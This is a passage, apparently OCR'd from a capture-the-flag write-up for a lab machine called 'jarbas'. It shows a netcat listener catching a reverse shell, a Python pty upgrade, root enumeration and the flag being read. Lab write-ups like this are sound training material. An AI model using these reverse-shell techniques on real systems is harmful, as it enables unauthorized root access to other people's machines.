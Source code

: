     ```php
    nc -lvp 1235                                                        
    listening on [any] 1235 ...
    //
    192.168.75.135: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.135] 58338
    python -c "import pty;pty.spawn('/bin/bash')"
    [root@jarbas ~]# whoami
    whoami
    root
    [root@jarbas ~]# uname -a
    uname -a
    Linux jarbas 3.10.0-693.21.1.el7.x86_64 #1 SMP Wed Mar 7 19:03:37 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    [root@jarbas ~]# dpkg -l
    dpkg -l
    bash: dpkg: command not found
    [root@jarbas ~]# cat flag.txt //读取flag
    cat flag.txt
    Hey!
    
    Congratulations! You got it! I always knew you could do it!
    This challenge was very easy, huh? =)
    
    Thanks for appreciating this machine.
    
    @tiagotvrs 
    [root@jarbas ~]# 
    
    ```